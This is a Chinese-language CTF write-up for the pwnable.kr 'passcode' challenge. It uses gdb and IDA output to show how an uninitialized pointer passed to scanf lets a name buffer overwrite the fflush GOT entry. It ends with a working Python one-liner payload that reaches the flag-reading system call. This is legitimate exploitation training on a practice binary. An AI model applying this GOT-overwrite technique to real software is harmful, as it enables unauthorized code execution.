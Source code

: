 ```yaml
---
layout: post
title: PwnableKr Passcode
---
```

> Mommy told me to make a passcode based login system.
> 
> My initial C code was compiled without any error!
> 
> Well, there was some compiler warning, but who cares about that?

Compile:

	ssh passcode@pwnable.kr -p2222 (pw:guest)
	-r--r----- 1 root passcode_pwn   48 Jun 26  2014 flag
	-r-xr-sr-x 1 root passcode_pwn 7485 Jun 26  2014 passcode
	-rw-r--r-- 1 root root          858 Jun 26  2014 passcode.c
	passcode@ubuntu:~$ cat passcode.c
	
	test@n0tr00t:~/pwn$ gcc -g pass.c -m32 -o pass

由于可以拿到源代码直接分析可以看到 scanf 的参数没有加地址符号，限制 name 100位，gdb 分析查看栈情况以及 name, pass1, pass2 的布局，直接对 welcome 和 login 下断点：

	gdb-peda$ disas main
	Dump of assembler code for function main:
      0x08048665 <+0>: push   ebp
      0x08048666 <+1>: mov    ebp,esp
      0x08048668 <+3>: and    esp,0xfffffff0
      0x0804866b <+6>: sub    esp,0x10
      0x0804866e <+9>: mov    DWORD PTR [esp],0x80487f0
      0x08048675 <+16>:    call   0x8048450 <puts@plt>
      0x0804867a <+21>:    call   0x8048609 <welcome>
      0x0804867f <+26>:    call   0x8048564 <login>
      0x08048684 <+31>:    mov    DWORD PTR [esp],0x8048818
      0x0804868b <+38>:    call   0x8048450 <puts@plt>
      0x08048690 <+43>:    mov    eax,0x0
      0x08048695 <+48>:    leave  
      0x08048696 <+49>:    ret  

    gdb-peda$ b welcome
      Breakpoint 3 at 0x8048612: file pass.c, line 27.
    gdb-peda$ b login
      Breakpoint 4 at 0x804856a: file pass.c, line 8.
    gdb-peda$ i b
      Num     Type           Disp Enb Address    What
      3       breakpoint     keep y   0x08048612 in welcome at pass.c:27
      4       breakpoint     keep y   0x0804856a in login at pass.c:8

在第一个断点处走到 scanf("%100s", name) 时可以看到对应汇编的情况：

      0x8048625 <welcome+28>: call   0x8048420 <printf@plt>
    =>0x804862a <welcome+33>: mov    eax,0x80487dd
      0x804862f <welcome+38>: lea    edx,[ebp-0x70]
      
x/s 0x80487dd => 0x80487dd:	 "%100s" , name 地址为 ebp-0x70：

	gdb-peda$ x $ebp-0x70
	0xffffd1c8:	 'a' <repeats 21 times>
	
passcode1 地址为 ebp-0x10 （开始在 winod 调试的时候进入 login 堆栈平衡会用 c 填覆盖填充区域，导致撞了半天墙。），由于他们在相同栈内应该能够覆盖，计算两者距离 0x70-0x10=96 ，name[100] 限制目前能覆盖4字节的 passcode1 地址。

   	gdb-peda$ x/20 $ebp-0x30
    0xffffd208: 0x61616161  0x61616161  0x61616161  0x61616161
    0xffffd218: 0x61616161  0x61616161  0x61616161  0x61616161
    0xffffd228: 0x62626262  0x8e658f00  0x00000000  0x00000000
    0xffffd238: 0xffffd258  0x08048684  0x080487f0  0x00000000
    0xffffd248: 0x080486a9  0xf7fc1ff4  0x080486a0  0x00000000

    gdb-peda$ x $ebp-0x10
    0xffffd228: 0x62626262

    gdb-peda$ x/s 0xffffd228
    0xffffd228:  "bbbb"
   
位置稍微远了点所以想直接利用 scanf 的功能特性 hook 函数，来到源码：
	
	void login(){
		int passcode1;
		int passcode2;
	
		printf("enter passcode1 : ");
		scanf("%d", passcode1);
		fflush(stdin);

scanf 执行完毕后会调用 fflush 清空缓冲区，所以直接搞它吧，丢 ida 查 .got 表地址：

![](https://ws1.sinaimg.cn/large/c334041bgy1fdoq3t3u0wj218y0bs78f)

off_804A004 fflush ，随便找一个读 flag 操作的汇编地址，反正按序执行 xD ：

    .text:080485CE                 cmp     [ebp+passcode2], 0CC07C9h
    .text:080485D5                 jnz     short loc_80485F1
    .text:080485D7                 mov     dword ptr [esp], offset aLoginOk ; "Login OK!"
    .text:080485DE                 call    _puts
    .text:080485E3                 mov     dword ptr [esp], offset command ; "/bin/cat flag"
    .text:080485EA                 call    _system
    .text:080485EF                 leave
    .text:080485F0                 retn
    
使用 Print Login OK 那条地址覆盖吧，fflush addr 804A004 = 080485D7， scanf 使用的是 %d 十进制，需要转换一下：134514135 ，Payload：

	passcode@ubuntu:~$ python -c "print 'a'*96 + '\x04\xa0\x04\x08' + '134514135'" | ./passcode
	Toddler's Secure Login System 1.0 beta.
	enter you name : Welcome aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa!
	enter passcode1 : Login OK!
	Sorry mom.. I got confused about scanf usage :(
	Now I can safely trust you that you have credential :)
